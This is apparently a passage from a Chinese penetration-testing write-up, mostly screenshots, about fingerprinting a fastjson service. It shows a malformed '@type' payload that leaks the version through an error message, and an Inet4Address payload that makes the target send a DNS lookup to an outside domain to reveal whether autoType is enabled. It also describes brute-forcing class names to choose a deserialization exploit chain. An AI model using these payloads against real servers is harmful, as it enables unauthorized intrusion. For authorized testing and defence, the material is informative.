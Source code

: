 ![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0B00g4gll9SiaEaDFYSkdQibjyAAMT8qcZoE49tYR0ZV8F98bG4kibD30A/640?wx_fmt=png&from=appmsg "")  
  
  
也是json请求的  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0aic1ZkcOgITwzkJeJkxGwvcXLq2H4gLm23rjRnfXICBWWbsm70Tqp4A/640?wx_fmt=png&from=appmsg "")  
  
  
  
删除一个括号，存在报错信息，有报错信息方便判断fastjson版本了  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0AsMo2dp2us7A9fC2ylzfUapsxMh4BMfaA9uXmDgTk3tRFS7pHBAib1A/640?wx_fmt=png&from=appmsg "")  
  
  
报错出版本为1.2.54  
```
{"@type":"java.lang.AutoCloseable"a["test ":1]
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0mLSqgjGA9ws1AOEnL95vIibOcSrw5ChYFSiaWfPMH2SAgo5vCtIaD0CQ/640?wx_fmt=png&from=appmsg "")  
  
判断autoType是否开启，如果开启了，就会收到dnslog请求  
```
[
  {
    "@type": "java.net.CookiePolicy"
  },
  {
    "@type": "java.net.Inet4Address",
    "val": "xxx.eu.org"
  }
]
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0132NLzOaEZ2yUshv4dWEcsIM537N70nWKSiak4qx0icZpF1Njl8WRv1g/640?wx_fmt=png&from=appmsg "")  
  
收到请求了,说明autoType开启了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw08p6OT2A8RUKHribmVsdGFoK4ibzNgCL3dg9clEffX3E799uVpw9142mQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过@type判断目标服务器存在什么类，@type中不存在的类名和存在的类名回显是不一样的  
  
存在的类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw090yQqSXmzdSNKF5mO4g57HJ7YuUzA1MhVgfDpnpXBAxbBGholxL0Dw/640?wx_fmt=png&from=appmsg "")  
  
不存在的类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0dB1TBBA87bTwtiaUO2A2NlCnnaoJJvTfS7SVssVJfjol365R05UpzFQ/640?wx_fmt=png&from=appmsg "")  
  
  
直接爆破一遍，看看存在什么类，就可以知道打什么链了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0p5NO6ksdHS5JFj1dK61LDCD1XgrEIIvCVhDf4aa30NZeD86dVQkHWA/640?wx_fmt=png&from=appmsg "")  
  